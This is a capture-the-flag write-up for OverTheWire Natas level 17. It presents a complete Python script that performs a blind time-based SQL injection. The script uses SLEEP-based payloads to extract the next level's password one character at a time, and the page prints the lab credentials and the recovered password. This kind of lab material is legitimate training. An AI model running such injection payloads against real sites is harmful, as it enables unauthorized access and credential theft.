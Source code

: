 🔐 **Level 17**

When accessing the website, we are greeted with a message along with an input field to enter the username, just like the previous challenge:  
<img width="1920" height="548" alt="image" src="https://github.com/user-attachments/assets/45260d5b-7dd1-4d4b-9963-d31be8936e57" />

Checking the **source code** 📝:  
<img width="1132" height="691" alt="image" src="https://github.com/user-attachments/assets/b824465a-a372-4469-bfb6-20199537fe9c" />

Oh! This time, no matter what we input, nothing is displayed on the page like before. However, this is still a brute-force attack challenge.  
👉 Instead of relying on response messages, we now use **time-based SQL Injection** ⏳ to detect the correct characters.

I used the following Python code to brute-force:

```python
import requests
import string
import time

url = "http://natas17.natas.labs.overthewire.org"
auth = ('natas17', 'EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC')

charset = string.ascii_letters + string.digits

password = ""

for i in range(1, 33):
    for char in charset:
        payload = f'natas18" AND IF(BINARY SUBSTRING(password,{i},1)="{char}", SLEEP(2), 0)-- a'
        start = time.time()
        response = requests.post(url, auth=auth, data={"username": payload})
        end = time.time() - start
        print(f'{end:.4f}{char}')
        if end >= 2:
            password += char
            print(f'Character {i} is {char}')
            break
        else:
            print(f'{char} is not character {i}')

print(f"[✅] Full password of natas17: {password}")

Here, the condition relies on execution time because the SLEEP(2) function delays the process if the guessed character is correct.

And the result was:
<img width="728" height="268" alt="image" src="https://github.com/user-attachments/assets/492b003c-6621-48df-95f3-da90fc736581" />

✨ Password revealed:


 ```
6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ

```
